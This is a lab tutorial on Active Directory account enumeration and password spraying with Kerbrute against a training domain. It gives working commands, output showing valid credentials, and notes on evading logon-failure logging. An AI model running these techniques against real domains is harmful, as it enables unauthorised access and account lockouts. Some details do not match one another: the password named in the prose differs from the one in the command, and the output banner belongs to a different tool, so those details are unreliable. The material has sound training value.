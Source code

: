 # Account Enumeration & Password Spraying with Kerberos 


It is possible to test if a username exists or if a password is valid for an account using Kerberos. Indeed, following the first request made by a user, **AS-REQ**, the domain controller can respond differently depending on whether the username presented exists or not and, if it does, whether the password is correct or not. 


This **AS-REQ** request is how the [Kerbrute](https://github.com/ropnop/kerbrute) tool performs username enumeration and password spraying. 


Bruteforcing Windows usernames and passwords with Kerberos is very fast and potentially stealthier than other methods since pre-authentication failures do not trigger that "traditional" **An account failed to log on event 4625**. With Kerberos, you can validate a username or test a login by only sending one UDP frame to the KDC (Domain Controller).


## Kerbrute Install


To install Kerbrute, we need to download the binary from [kerbrute releases](https://github.com/ropnop/kerbrute/releases/), select the latest one for Linux kerbrute_linux_amd64, and change its privileges to be executable.



![kerbrute install](/Kerberos-Attacks/Acct-Enum-Password-Spray-w-Kerberos/images/kerbrute-install.png) 



## User Enumeration 



To enumerate usernames, **Kerbrute** sends TGT requests with no pre-authentication. If the KDC responds with a **PRINCIPAL UNKNOWN** error, the username does not exist. However, if the KDC prompts for pre-authentication, we know the username exists and move on. This does not cause logon failures, so it will not lock out any accounts. This generates a Windows event ID **4768** if Kerberos logging is enabled. For this to work, we must provide the tool with a list of usernames, the domain controller's IP or hostname, and the domain. 



### User Enumeration 


In this example, we provided **Kerbrute** with a list of 209 usernames, and 1 of them was  valid. They were all checked in 1.111s, which is very fast.


	kerbrute/kerbrute2 userenum users.txt --dc dc01.inlanefreight.local -d inlanefreight.local

	    __             __               __     
	   / /_____  _____/ /_  _______  __/ /____ 
	  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
	 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
	/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

	Version: dev (n/a) - 01/19/24 - Ronnie Flathers @ropnop

	2024/01/19 12:47:47 >  Using KDC(s):
	2024/01/19 12:47:47 >   dc01.inlanefreight.local:88

	2024/01/19 12:47:47 >  [+] VALID USERNAME:       adam.jones@inlanefreight.local
	2024/01/19 12:47:48 >  Done! Tested 209 usernames (1 valid) in 1.111 seconds



![Kerbrute User Enum](/Kerberos-Attacks/Acct-Enum-Password-Spray-w-Kerberos/images/kerbrute-user-enum.png) 




## Password Spraying 


With **passwordspray, Kerbrute** will perform a horizontal brute force attack against a list of domain users. This is useful for testing one or two common passwords when you have a large list of users. This **does increment** the failed login count and can lock out accounts. This will generate **both event IDs 4768 - A Kerberos authentication ticket (TGT) was requested, and 4771 - Kerberos pre-authentication failed**. 



### Password Spraying 


kerbrute -users users-2.txt -password 'HTBRocks!' -dc-ip 10.129.205.35 -domain inlanefreight.local
Impacket for Exegol - v0.10.1.dev1+20230909.241.3001b261 - Copyright 2022 Fortra - forked by ThePorgs
                                                            
	[*] Valid user => Administrator
	[*] Blocked/Disabled user => Guest                                                                                      
	[*] Blocked/Disabled user => krbtgt
	[*] Valid user => derek.walker 
	[*] Valid user => carole.holmes
	[*] Valid user => callum.dixon 
	[*] Valid user => beth.richards
	[*] Stupendous => amber.smith:HTBRocks!
	[*] Stupendous => jenna.smith:HTBRocks!
	[*] Stupendous => carole.rose:HTBRocks!
	[*] Valid user => sqldev
	[*] Valid user => sqlprod
	[*] Valid user => sqlqa
	[*] Valid user => sql-test
	[*] Valid user => adam.jones
	[*] Valid user => jacob.kelly
	[*] Valid user => daniel.whitehead
	[*] Valid user => annette.jackson
	[*] Valid user => sandra.murphy
	[*] Valid user => debra.rogers 
	[*] Valid user => htb-student
	[*] Valid user => brian.willis
	[*] Stupendous => matilda.kens:HTBRocks!
	[*] Saved TGT in matilda.kens.ccache




In this case, we provided Kerbrute with a list of 117 usernames and the password inlanefreight2020. It was valid for four of them. 


![Password Spray](/Kerberos-Attacks/Acct-Enum-Password-Spray-w-Kerberos/images/password-spray.png) 


